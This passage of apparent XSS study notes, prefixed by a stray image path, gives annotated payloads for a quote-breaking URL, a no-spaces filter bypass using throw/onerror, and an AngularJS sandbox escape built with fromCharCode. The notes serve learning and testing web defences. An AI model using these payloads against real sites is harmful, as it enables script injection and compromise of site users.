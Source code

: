 		http://foo?&apos;-alert(1)-&apos;

## Bypass charachters blocked in URL

		http://example.com/postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27

- Break down

	```
	postId=5&
		'},
			x=
				x=>{
					throw/**/onerror=alert,1337
				},
				toString=x,window '',
		{x:'
	```

- The exploit uses exception handling to call the alert function with arguments.
- The throw statement is used, separated with a blank comment in order to get round the no spaces restriction.
- The alert function is assigned to the onerror exception handler.
- As throw is a statement, it cannot be used as an expression. Instead, we need to use arrow functions to create a block so that the throw statement can be used.
- We then need to call this function, so we assign it to the toString property of window and trigger this by forcing a string conversion on window.

## Escaping Angluar JS sandbox without strings

		http://example.com/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1

- Break down

	```
	search=1
		&toString().constructor.prototype.charAt%3d[].join;
		[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
	```

- The exploit uses toString() to create a string without using quotes.
- It then gets the String prototype and overwrites the charAt function for every string. This effectively breaks the AngularJS sandbox.
- Next, an array is passed to the orderBy filter. We then set the argument for the filter by again using toString() to create a string and the String constructor property.
- Finally, we use the fromCharCode method generate our payload by converting character codes into the string x=alert(1). Because the charAt function has been overwritten, AngularJS will allow this code where normally it would not.

## Escaping `src` html attribute
